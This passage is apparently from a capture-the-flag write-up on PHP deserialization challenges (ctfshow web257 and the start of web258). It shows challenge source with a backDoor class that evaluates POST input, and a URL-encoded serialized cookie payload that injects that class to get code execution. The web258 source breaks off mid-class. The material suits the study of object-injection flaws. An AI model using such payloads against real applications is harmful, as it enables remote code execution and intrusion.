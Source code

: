 ```php

	}

	class info{
		private $user='xxxxxx';
		public function getInfo(){
			return $this->user;
		}
	}

	class backDoor{
		private $code='eval($_POST[Ki1ro]);';
		public function getInfo(){
			eval($this->code);
		}
	}

	echo urlencode(serialize(new ctfShowUser()));

?>
```

payload：

```
GET username=1&password=2
COOKIE user=O%3A11%3A%22ctfShowUser%22%3A4%3A%7Bs%3A21%3A%22%00ctfShowUser%00username%22%3Bs%3A6%3A%22xxxxxx%22%3Bs%3A21%3A%22%00ctfShowUser%00password%22%3Bs%3A6%3A%22xxxxxx%22%3Bs%3A18%3A%22%00ctfShowUser%00isVip%22%3Bb%3A0%3Bs%3A18%3A%22%00ctfShowUser%00class%22%3BO%3A8%3A%22backDoor%22%3A1%3A%7Bs%3A14%3A%22%00backDoor%00code%22%3Bs%3A20%3A%22eval%28%24_POST%5BKi1ro%5D%29%3B%22%3B%7D%7D
```

### [web258]

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-12-02 17:44:47
# @Last Modified by:   h1xa
# @Last Modified time: 2020-12-02 21:38:56
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/

error_reporting(0);
highlight_file(__FILE__);

class ctfShowUser{
    public $username='xxxxxx';
    public $password='xxxxxx';
    public $isVip=false;
    public $class = 'info';

    public function __construct(){
        $this->class=new info();
    }
    public function login($u,$p){
        return $this->username===$u&&$this->password===$p;
    }
    public function __destruct(){
        $this->class->getInfo();
```